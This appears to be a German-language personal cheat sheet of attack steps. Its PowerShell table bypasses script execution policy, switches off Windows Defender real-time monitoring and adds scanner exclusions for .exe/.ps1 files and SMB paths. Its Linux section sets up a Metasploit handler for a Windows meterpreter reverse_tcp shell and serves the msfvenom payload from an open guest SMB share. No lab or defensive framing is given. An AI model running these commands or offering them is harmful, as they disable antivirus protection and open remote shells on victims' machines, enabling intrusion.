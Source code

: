# Notizen – 81a5terfr34k
## Windows: 

### Richtlinien mit Powershell Befehlen ändern:
- setzen (SET) 
- Anzeigen (Get) 

---

| Befehl                                                      | Beschreibung                       |
|-------------------------------------------------------------|------------------------------------|
| Get-ExecutionPolicy                                         | Ausführungsrichtlinien anzeigen    |
| Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass  | Skriptausführung zulassen          |
| Set-MpPreference -DisableRealtimeMonitoring $true           | Antivirenscanner ausschalten       |       
| Set-MpPreference -DisableRealtimeMonitoring $false          | Antivirenscanner einschalten       |
| Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"     | Ausnahmen hinzufügen (Dateityp)    |
| Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad"           | Ausnahmen hinzufügen (Ordner)      |
| Add-MpPreference -ExclusionPath "\\192.168.x.x\SMB-Pfad"    | Ausnahmen hinzufügen (SMB/NAS)     |

---

--> Script ausführen mit: `.\<scriptname>.ps1`

---

## Linux:

- Payload erstellen: msfvenom
- Meterpreter Listener bereitstellen:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <kali IP>
set LPORT 4444
set ExitOnSession false
exploit -j
````

---

- smbshare Ordner erstellen: `sudo mkdir -p /srv/smbshare`
- smbshare Ordnerzugriff erteilen: `sudo chmod -R 777 /srv/smbshare`
- Payload nach smbshare Ordner verschieben: `mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/`
- Inhalt von smbshare kontrollieren: `ls -l /srv/smbshare`
- SMB Dienst starten: `sudo systemctl start smbd`
- SMB Dienst Status prüfen: `sudo systemctl status smbd`
- Zugriff auf smbshare testen: `smbclient //localhost/share -N`
- aktive Samba Konfiguration anzeigen: `testparm (/etc/samba/smb.conf)`
- SMB Konfigurations-DATEI bearbeiten: `sudo nano /etc/samba/smb.conf`
- NEUEN [share]-Block ganz unten im Dokument erstellen mit:

````
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
   
[global]-Block ergänzen:
   map to guest = Bad User
````

- speichern: strg+0 
- schliessen: strg+x
- SMB Dienst neu starten: sudo systemctl restart smbd
